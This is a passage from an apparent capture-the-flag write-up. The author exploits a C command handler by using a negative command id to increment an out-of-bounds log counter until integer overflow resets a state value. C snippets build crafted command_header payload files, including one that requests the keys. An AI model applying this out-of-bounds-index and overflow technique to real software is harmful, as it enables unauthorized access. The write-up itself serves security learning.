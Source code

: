 But, repeating our vulnerability here, we can only increase the value by 1 (e.g: 1 to 2), not decrease it:

```C
// Log the message in the command log
command_log[header->id]++;
```

OK, but... there is another known aspect of C programs we can explore: integer overflows! If we keep increasing this value, it will eventually go back to zero, our desired state.

## Finding the right payload

When talking about structs, I don't really know the memory formats in details and C types may surprise me. To avoid wasting time, I built a separate program to generate the command_header buffer, copying all structs as is.

Since I know the target for a change is 8 bytes before, I only changed the command_id_type for including negatives:

```C
typedef enum command_id_type {
	COMMAND_ADCS_ON = 		0,
	COMMAND_ADCS_OFF =		1,
	COMMAND_CNDH_ON =		2,
	COMMAND_CNDH_OFF =		3,
	COMMAND_SPM =			4,
	COMMAND_EPM =			5,
	COMMAND_RCM =			6,
	COMMAND_DCM =			7,
	COMMAND_TTEST =			-8,
	COMMAND_GETKEYS =		9, // only allowed in unlocked state
} command_id_type;
```

And now I can generate files with the struct filled:

```C
// command_header
newid = COMMAND_TTEST;
cmd = {12, 13, newid};
f = fopen("command_header.bin", "w");
printf("%p", f);
fwrite(&cmd, sizeof(command_header), 1, f);
fclose(f);

// flag!
newid = COMMAND_GETKEYS;
cmd = {12, 13, newid};
f = fopen("get_flag.bin", "w");
printf("%p", f);
fwrite(&cmd, sizeof(command_header), 1, f);
fclose(f);
```
